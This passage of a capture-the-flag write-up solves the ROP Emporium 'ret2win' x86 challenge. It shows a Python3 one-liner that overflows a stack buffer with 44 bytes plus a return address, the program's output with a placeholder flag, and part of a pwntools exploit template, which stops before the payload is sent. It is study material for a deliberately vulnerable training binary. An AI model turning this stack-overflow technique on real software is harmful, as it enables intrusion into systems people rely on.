 
#### Python3 One-Line Exploit
Python3 is a little bit different, compared to the Python2 exploit, as it doesn't print byte strings the same way as Python2 does. To get around this, I used the `sys.stdout.buffer.write()` function from the `sys` module.

`python3 -c 'import sys; sys.stdout.buffer.write(b"A"*44 + b"\x2c\x86\x04\x08")'`

```
$ python3 -c 'import sys; sys.stdout.buffer.write(b"A"*44 + b"\x2c\x86\x04\x08")' | ./ret2win

ret2win by ROP Emporium
x86

For my first trick, I will attempt to fit 56 bytes of user input into 32 bytes of stack buffer!
What could possibly go wrong?
You there, may I have your input please? And don't worry about null bytes, we're using read()!

> Thank you!
Well done! Here's your flag:
ROPE{a_placeholder_32byte_flag!}
```

#### The Pwntools Exploit
I like to use my own template for writing exploits in `pwntools`.

```
#!/usr/bin/env python3

from pwn import *

# Set the binary context to the local binary
context.binary = binary = ELF("./ret2win32", checksec=False)
context.log_level = "CRITICAL"

# Get the LIBC used for the binary
libc = binary.libc

gdb_script = """
continue
"""

def start(argv=[], *a, **kw):
    if args.REMOTE:
        return remote(args.HOST or exit("[!] Provide a Remote IP."), int(args.PORT or exit("[!] Provide a Remote Port.")))

    elif args.GDB:
        return gdb.debug([binary.path] + argv, gdbscript=gdb_script, *a, **kw)

    else:
        return process([binary.path] + argv, *a, **kw)

# Exploitation code
# Define the offset (44 bytes)
offset = 44
# Create the buffer (44 A's)
buffer = b"A"*offset

# Pack the address of ret2win() into a Little-Endian 32-bit address
win = p32(0x0804862c)

# Define the payload as the buffer + the packed address of ret2win()
payload = buffer + win

# Start connection (LOCAL, REMOTE, or GDB)
```